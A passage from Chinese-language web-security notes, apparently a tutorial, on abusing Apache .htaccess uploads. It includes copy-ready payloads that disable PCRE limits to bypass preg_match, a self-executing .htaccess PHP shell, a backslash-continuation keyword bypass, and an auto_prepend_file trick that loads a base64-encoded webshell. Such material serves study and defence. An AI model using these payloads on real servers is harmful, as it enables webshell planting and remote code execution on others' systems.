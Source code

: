 再任意访问一个php文件，就会执行webshell文件(php)。

**2. 绕过preg_math的配置**

> pwd:htaccess/2.3.2/.htaccess

编辑.htaccess：

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

这样就能绕过preg_math的正则匹配。

#### 4) 直接使用.htaccess shell

> pwd:2.4

.htaccess文件：

```
<Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```

解说：首先设置了禁用拒绝规则，这样便可直接访问到.htaccess；接着用`SetHandler`将所有文件作为php解析，最后写入php代码，开头用`#`注释掉，这样便可成功解析.htaccess，然后解析php，访问.htaccess文件就能执行。

相关的关于.htaccess的shell，可参考github上一个项目(以后再研究)：

```
https://github.com/wireghoul/htshells
```

### 3.Bypass方式

#### 1）关键词检测

**1、反斜杠回车绕过**

```
AddT\
ype application/x-httpd-php .abc
```

**2. php代码检测绕过**

```
AddType application/x-httpd-php .a
php_value auto_prepend_file php://filter/convert.base64-decode/resource=webshell.a
```

然后上传的webshell.a为base64加密后的文件。

## 0x02 一句话木马
